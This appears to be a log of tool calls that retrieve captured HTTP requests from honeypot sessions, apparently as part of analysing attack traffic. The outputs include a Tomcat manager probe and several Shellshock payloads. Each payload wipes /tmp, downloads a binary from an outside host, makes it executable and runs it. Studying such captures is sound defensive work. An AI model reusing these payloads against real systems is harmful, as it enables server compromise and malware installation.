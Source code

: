 | Argument | Value |
| --- | --- |
| `session_id` | `CtN4AAOh7tuthOk1c` |
| `attrs` | `['http_requests']` |

| Output | Value |
| --- | --- |
| `http_requests` | `{'GET /manager/html HTTP/1.1\nUser-Agent: Mozilla/5.0 (compatible; MSIE 10.0; Windows NT 6.2; WOW64; Trident/6.0)\nHost: 54.67.87.80:8080'}` |


**Function called:** `get_session_attrs`

| Argument | Value |
| --- | --- |
| `session_id` | `CUd3x845Q5fiXTGgfg` |
| `attrs` | `['http_requests']` |

| Output | Value |
| --- | --- |
| `http_requests` | `{'GET / HTTP/1.1\nUser-Agent: () { :; }; /bin/bash -c "rm -rf /tmp/*;echo wget http://houmen.linux22.cn/houmen/linux223 -O /tmp/China.Z-dukk >> /tmp/Run.sh;echo echo By China.Z >> /tmp/Run.sh;echo chmod 777 /tmp/China.Z-dukk >> /tmp/Run.sh;echo /tmp/China.Z-dukk >> /tmp/Run.sh;echo rm -rf /tmp/Run.sh >> /tmp/Run.sh;chmod 777 /tmp/Run.sh;/tmp/Run.sh"\nHost: 54.67.87.80\nReferrer: () { :; }; /bin/bash -c "rm -rf /tmp/*;echo wget http://houmen.linux22.cn/houmen/linux223 -O /tmp/China.Z-dukk >> /tmp/Run.sh;echo echo By China.Z >> /tmp/Run.sh;echo chmod 777 /tmp/China.Z-dukk >> /tmp/Run.sh;echo /tmp/China.Z-dukk >> /tmp/Run.sh;echo rm -rf /tmp/Run.sh >> /tmp/Run.sh;chmod 777 /tmp/Run.sh;/tmp/Run.sh"'}` |


**Function called:** `get_session_attrs`

| Argument | Value |
| --- | --- |
| `session_id` | `CkaJEd5MosM5dEHjg` |
| `attrs` | `['http_requests']` |

| Output | Value |
| --- | --- |
| `http_requests` | `{'GET / HTTP/1.1\nUser-Agent: () { :; }; /bin/bash -c "rm -rf /tmp/*;echo wget http://houmen.linux22.cn/houmen/linux223 -O /tmp/China.Z-gsub >> /tmp/Run.sh;echo echo By China.Z >> /tmp/Run.sh;echo chmod 777 /tmp/China.Z-gsub >> /tmp/Run.sh;echo /tmp/China.Z-gsub >> /tmp/Run.sh;echo rm -rf /tmp/Run.sh >> /tmp/Run.sh;chmod 777 /tmp/Run.sh;/tmp/Run.sh"\nHost: 54.67.87.80\nReferrer: () { :; }; /bin/bash -c "rm -rf /tmp/*;echo wget http://houmen.linux22.cn/houmen/linux223 -O /tmp/China.Z-gsub >> /tmp/Run.sh;echo echo By China.Z >> /tmp/Run.sh;echo chmod 777 /tmp/China.Z-gsub >> /tmp/Run.sh;echo /tmp/China.Z-gsub >> /tmp/Run.sh;echo rm -rf /tmp/Run.sh >> /tmp/Run.sh;chmod 777 /tmp/Run.sh;/tmp/Run.sh"'}` |


**Function called:** `get_session_attrs`

| Argument | Value |
| --- | --- |
| `session_id` | `CkwpLu4cv6M9zBnlY8` |
| `attrs` | `['http_requests']` |

| Output | Value |
| --- | --- |
| `http_requests` | `{'GET / HTTP/1.1\nUser-Agent: () { :; }; /bin/bash -c "rm -rf /tmp/*;echo wget http://baojun.shop/dt64 -O /tmp/China.Z-faqf >> /tmp/Run.sh;echo echo By China.Z >> /tmp/Run.sh;echo chmod 777 /tmp/China.Z-faqf >> /tmp/Run.sh;echo /tmp/China.Z-faqf >> /tmp/Run.sh;echo rm -rf /tmp/Run.sh >> /tmp/Run.sh;chmod 777 /tmp/Run.sh;/tmp/Run.sh"\nHost: 54.67.87.80\nReferrer: () { :; }; /bin/bash -c "rm -rf /tmp/*;echo wget http://baojun.shop/dt64 -O /tmp/China.Z-faqf >> /tmp/Run.sh;echo echo By China.Z >> /tmp/Run.sh;echo chmod 777 /tmp/China.Z-faqf >> /tmp/Run.sh;echo /tmp/China.Z-faqf >> /tmp/Run.sh;echo rm -rf /tmp/Run.sh >> /tmp/Run.sh;chmod 777 /tmp/Run.sh;/tmp/Run.sh"'}` |


<details><summary>
<h3>Answer</h3>
</summary></details>

---
